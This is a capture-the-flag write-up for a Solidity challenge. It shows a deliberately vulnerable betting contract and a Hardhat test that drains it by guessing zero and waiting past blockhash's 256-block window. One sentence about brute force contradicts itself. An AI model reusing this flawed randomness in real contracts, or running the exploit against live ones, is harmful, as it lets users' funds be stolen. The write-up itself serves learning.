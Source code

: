 # Predict the future

## topic

```solidity
pragma solidity ^0.4.21;

contract PredictTheBlockHashChallenge {
    address guesser;
    bytes32 guess;
    uint256 settlementBlockNumber;

    function PredictTheBlockHashChallenge() public payable {
        require(msg.value == 1 ether);
    }

    function isComplete() public view returns (bool) {
        return address(this).balance == 0;
    }

    function lockInGuess(bytes32 hash) public payable {
        require(guesser == 0);
        require(msg.value == 1 ether);

        guesser = msg.sender;
        guess = hash;
        settlementBlockNumber = block.number + 1;
    }

    function settle() public {
        require(msg.sender == guesser);
        require(block.number > settlementBlockNumber);

        bytes32 answer = block.blockhash(settlementBlockNumber);

        guesser = 0;
        if (guess == answer) {
            msg.sender.transfer(2 ether);
        }
    }
}
```

## analyse

this level is not impossible to brute force since it has 2^256 probabilities.

However, in both the Solidity compiler version 0.4.21 (for `block.blockhash()`) and ^0.8.0 (for `blockhash()`), the function to obtain the block hash from a block number only returns the hash for the 256 most recent blocks, excluding current.

From [Solidity documentation](https://docs.soliditylang.org/en/v0.6.8/units-and-global-variables.html#block-and-transaction-properties):

> The block hashes are not available for all blocks for scalability reasons. You can only access the hashes of the most recent 256 blocks, all other values will be zero.

This means that after 256 + 1 blocks of locking our guess our "random" answer will be 0.

## solution

1. lock the number: Call `lockInGuess` with `0x0000000000000000000000000000000000000000000000000000000000000000`
2. Wait for 257 blocks
3. Call `settle`

```js
import { expect } from "chai";
import { ethers } from "hardhat";

const { utils, provider } = ethers;

describe("PredictTheBlockHashChallenge", () => {
  it("Solves the challenge", async () => {
    const challengeFactory = await ethers.getContractFactory("PredictTheBlockHashChallenge");
    const challengeContract = await challengeFactory.deploy({ value: utils.parseEther("1") });
    await challengeContract.deployed();

    const lockInGuessTx = await challengeContract.lockInGuess(
      "0x0000000000000000000000000000000000000000000000000000000000000000",
      { value: utils.parseEther("1") },
    );
    await lockInGuessTx.wait();

    const initBlockNumber = await provider.getBlockNumber();

    let lastBlockNumber = initBlockNumber;
    do {
      lastBlockNumber = await provider.getBlockNumber();
      console.log(`Block number: ${lastBlockNumber}`);

      await ethers.provider.send("evm_mine", []);
    } while (lastBlockNumber - initBlockNumber < 256);

    const attackTx = await challengeContract.settle();
    await attackTx.wait();

    expect(await challengeContract.isComplete()).to.be.true;
  });
});
```







